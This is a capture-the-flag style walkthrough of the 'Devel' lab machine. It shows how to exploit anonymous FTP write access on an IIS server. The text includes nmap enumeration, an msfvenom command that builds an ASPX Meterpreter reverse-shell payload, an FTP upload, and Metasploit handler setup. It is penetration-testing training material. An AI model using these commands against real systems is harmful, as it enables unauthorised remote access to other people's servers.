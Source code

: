 ## Devel Walkthrough

Devel is a machine that shows how easily a bad-actor can exploit an FTP server with anonymous log-ins allowed.

![Devel (1)](https://user-images.githubusercontent.com/126024971/222150125-691ed746-8105-4885-94eb-647374b40494.png)

---

### Enumeration

IP Address: 10.129.237.99

Start with an namp scan of the target.

`nmap -T4 -A 10.129.237.99`

The scan found two ports:

Port 21 - An FTP server

Port 80 - IIS

![image](https://user-images.githubusercontent.com/126024971/222151820-50bce772-b532-421e-ab4f-71cae41803af.png)

Interestingly, the FTP server allows for anonymous logins. And since IIS is running, this is also a web server.

First, let's check out FTP. You can log into the server with this command:

`ftp 10.129.237.99`

After this you will be prompted for a username, since anonymous login is allowed you can use the anonymous user. When you are prompted for a password, just hit enter and you will be logged into the machine.

![image](https://user-images.githubusercontent.com/126024971/222153347-1dc0a197-6b4c-4c55-b9cf-a7e13a6cc172.png)

We get read/write permisions with the anonymous account. However, we need more information before going further. Navigate to the web server in a browser (be sure to point to port 80). We just the the default IIS splash screen.

![image](https://user-images.githubusercontent.com/126024971/222153829-5868d5f6-9e9f-40f6-a594-0b9f1de54e84.png)

---

### Weaponization 

Since Devel is running IIS in conjunction with the FTP server that we have write permissions to, we can inject an ASPX file. ASPX (Active Server Page Extended) files use scripts to coordinate how a web page behaves. We can use this to our advantage by dropping an ASPX file into the target that provides a reverse shell. To create a ASPX reverse shell file, use this command:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR-IP-ADDRESS LPORT=4444 -f aspx >devel.aspx`

![Screenshot_20230227_023441](https://user-images.githubusercontent.com/126024971/222156199-b4dcd2e0-9895-42f4-af11-d61c4fdbe221.png)

You can run an `ls` command to confirm that the ASPX file is in your current directory:

![Screenshot_20230227_023505](https://user-images.githubusercontent.com/126024971/222156623-5e2d6a66-ed50-4ab6-9ca2-9cd628ae66cd.png)

Now we need to copy the ASPX file onto the FTP server (make sure you are loggged onto the FTP server when running this command).

`put devel.aspx` 

![Screenshot_20230227_023704](https://user-images.githubusercontent.com/126024971/222157080-19a7e454-7414-4ed9-9b00-fab2fe2131b2.png)

Now that the ASPX file is on devel, we need to set up a listening service for the reverse shell to talk to once the ASPX file is ran.There are many ways of doing this, but I like using the multi handler in Metasploit:

`msfconsole`

`use exploit/multi/handler`

`show options`

![image](https://user-images.githubusercontent.com/126024971/222157671-9837d8fd-d546-4d66-b3cf-df4142d106c9.png)

This module only requires the IP of your machine and the listening port. By default, the port is 4444. If you set the port to something different when you had the ASPX file, change the port to whatever you set it to.

`set LHOST YOUR-IP-ADDRESS`

Now the last thing we need is a payload. Since we used windows/meterpreter/reverse_tcp when we made the ASPX file, we will use it again here.

`set payload windows/meterpreter/reverse_tcp`

Now you can run the exploit:

![Screenshot_20230227_024502](https://user-images.githubusercontent.com/126024971/222159769-3287abfe-96d8-4bc4-9357-a3cac433a0f4.png)

It might not look like it is doing anything, but what we have done is we started listening for a response on port 4444. We just need to run the ASPX file now.

Navigate to 10.129.237.99/devel.aspx in a web browser to open the reverse shell:

![image](https://user-images.githubusercontent.com/126024971/222160517-cc1e5599-683d-466a-a7da-4f51884dafee.png)

You won’t see anything here, but if you go back to your Metasploit session you will now have access to the machine:

![image](https://user-images.githubusercontent.com/126024971/222160811-a4204616-fb9a-4ace-b37e-70cddcf59db2.png)

